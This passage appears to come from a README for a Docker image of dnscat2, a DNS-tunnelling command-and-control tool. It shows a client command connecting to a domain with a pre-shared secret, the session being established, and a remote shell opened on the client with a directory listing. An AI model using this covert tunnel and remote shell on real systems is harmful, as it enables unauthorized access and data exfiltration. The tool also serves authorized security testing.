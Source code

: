 ```

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=e9829a2263f0c5ca10c8024dd551691f

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> 
```

Run client

```
$ sudo docker run -it --rm dmachard/dnscat2:latest client --secret=e9829a2263f0c5ca10c8024dd551691f biillpi.com
Creating DNS driver:
 domain = biillpi.com
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 192.168.1.210

** Peer verified with pre-shared secret!

Session established!
```

Open a remote shell from server

```
dnscat2> session -i 2

command (1535f3a093f8) 2> shell
Sent request to execute a shell
command (1535f3a093f8) 2> New window created: 3
Shell session created!

command (1535f3a093f8) 2> session -i 3
New window created: 3
history_size (session) => 1000
Session 3 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (1535f3a093f8) 3> ls -alrt
```
